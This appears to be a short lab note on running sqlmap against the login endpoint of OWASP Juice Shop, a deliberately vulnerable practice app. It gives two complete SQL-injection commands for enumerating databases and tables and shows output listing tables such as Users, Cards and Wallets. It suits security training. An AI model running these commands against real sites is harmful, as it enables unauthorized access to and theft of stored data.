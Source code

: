 # SQL Map

It's more effective when you set some default values. It increases the performance.

## Retrieve the databases

```bash
sqlmap -u 'juice-shop.herokuapp.com/rest/user/login' --data="email=test@test.com&password=test" --level 5 --risk 3 -f --banner --ignore-code 401 --dbs
```


## Retrieve the tables

```bash
sqlmap -u 'juice-shop.herokuapp.com/rest/user/login' --data="email=test@test.com&password=test" --level 5 --risk 3 -f --banner --ignore-code 401 --tables
```

Here is the result

```bash
...
[21:51:47] [INFO] retrieved: Quantities
[21:52:00] [INFO] retrieved: Recycles
[21:52:11] [INFO] retrieved: SecurityQuestions
[21:52:37] [INFO] retrieved: SecurityAnswers
[21:52:49] [INFO] retrieved: Wallets
[20 tables]
+-------------------+
| Addresses |
| BasketItems |
| Baskets |
| Captchas |
| Cards |
| Challenges |
| Complaints |
| Deliveries |
| Feedbacks |
| ImageCaptchas |
| Memories |
| PrivacyRequests |
| Products |
| Quantities |
| Recycles |
| SecurityAnswers |
| SecurityQuestions |
| Users |
| Wallets |
| sqlite_sequence |
+-------------------+
```
